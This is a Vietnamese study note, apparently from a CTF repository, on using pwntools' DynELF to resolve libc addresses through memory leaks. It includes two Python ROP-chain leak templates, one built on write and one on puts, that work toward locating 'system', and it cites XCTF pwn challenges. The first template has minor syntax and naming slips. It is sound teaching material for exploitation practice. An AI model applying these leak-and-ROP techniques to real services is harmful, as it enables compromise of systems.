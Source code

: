 # DynELF pwntools

> DynELF Module pwntools - Resolving remote functions using leaks.

- [Link-DynELF_pwntools](https://docs.pwntools.com/en/stable/dynelf.html) .

- Trong thực tế một số challenge không cung cấp libc.so nhưng vẫn có các hàm output có thể được sử dụng để leak giá trị (khác với ret2dlresolve là không có hàm output).
- Khi đó khớp trực tiếp libc.so từ module - hàm DynELF trong pwntools.
- Điều kiện yêu cầu là địa chỉ thực trong LIBC và các hàm output: `write, puts, printf, ...`

- VD: Khi hàm output của chương trình được cung cấp là hàm write, chúng ta có thể sử dụng hàm write để xuất địa chỉ thực của hàm write. Mẫu viết DynELF(64-bits) của chức năng write được cung cấp:
```python
def leak(address):
    payload = padding
    payload += p64(pop_rdi_ret) + p64(1)
    payload += p64(pop_rsi_ret) + p64(address)
    payload += p64(pop_rdx_ret) + p64(8)
    payload += p64(write_plt)
    payload += p64(ret_address)
    p.send(payload)
    data = p.recv(8)
    return data

d=DynELF(leak, elf=ELF("./program")
system_address=d.lookup("system", "libc")
log.info("system LIBC address: " + hex(system))
```

- VD: Khi là hàm puts, đầu ra của hàm puts khó kiểm soát hơn nhiều so với đầu ra của chức năng write vì chúng ta có thể kiểm soát đầu ra của hàm write bao nhiêu byte  còn đầu ra của hàm puts là cho đến khi gặp ký tự NULL
=> khó khăn hơn cho việc leak vì ta vẫn chỉ cần 4 byte đầu khi leak. Khi sử dụng puts sẽ xuất hiện hai tình huống:                                                                                                                                                                                          
    * `1.` Không còn dữ liệu nào của chương trình được in ra sau khi dùng pus để leak.
    * `2.` Có dữ liệu của chương trình được in ra sau khi sử dụng puts để leak. VD: "<value use puts => leak>Helloworld!!!"
- Mẫu chương trình, với trường hợp hai chỉ cần thay `c=b""` = `c=b"H"`.

```python
def leak(address):
	count = 0
	data = b""
	payload = b"A" * 64 + b"B" * 8
	payload += p64(pop_rdi) + p64(address)
	payload += p64(puts_plt)
	payload += p64(start_addr)
	payload = payload.ljust(200, b"B")
	p.send(payload)
	print(p.recvuntil(b"bye~\n"))
	up = b""
	while True:
		c = p.recv(numb=1, timeout=0.5)
		count += 1
		if up == b'\n' and c == b"":
			data = data[:-1]
			data += b"\x00"
			break
		else:
			data += c
		up = c
	data = data[:4]
	log.info("%#x => %s" % (address, (data or b'')))
	return data
```

- References:
    * https://blog.csdn.net/qq_43986365/article/details/100182414

    * https://www.anquanke.com/post/id/85129

    * Challenge pwn-100, pwn-200 của XCTF.


